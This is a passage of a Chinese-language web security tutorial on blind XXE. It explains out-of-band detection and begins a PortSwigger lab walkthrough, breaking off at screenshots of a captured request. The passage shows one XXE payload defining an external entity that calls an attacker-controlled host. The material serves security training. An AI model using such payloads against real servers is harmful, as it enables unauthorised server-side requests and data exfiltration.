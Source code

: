 #### 外带技术

您通常可以使用与 XXE SSRF 攻击相同的技术来检测盲注类型的 XXE，但会触发与您控制的系统的带外网络交互，例如：您可以定义一个外部实体，如下所示：

```plain
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

然后您将在 XML 中的数据值中使用定义的实体，此 XXE 攻击导致服务器对指定的 URL 发出后端 HTTP 请求，攻击者监视由此产生的 DNS 查找和 HTTP 请求，从而检测 XXE 攻击是否成功

#### 数据外带

靶场名称：Blind XXE with out-of-band interaction  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)  
靶场演示：

随后选择任意商品  
[![](assets/1706060044-abee0025b8cc935c45ba47ab6adbf8df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131120-d82db8da-b9ad-1.png)  
查看其库存量  
[![](assets/1706060044-44593cd553ce6a0d700b8601438a4e7b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131158-eed3e668-b9ad-1.png)  
捕获到的数据包如下所示：  
[![](assets/1706060044-b8a1ba7743fd552a82032ce365705bde.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131215-f8ffac3a-b9ad-1.png)
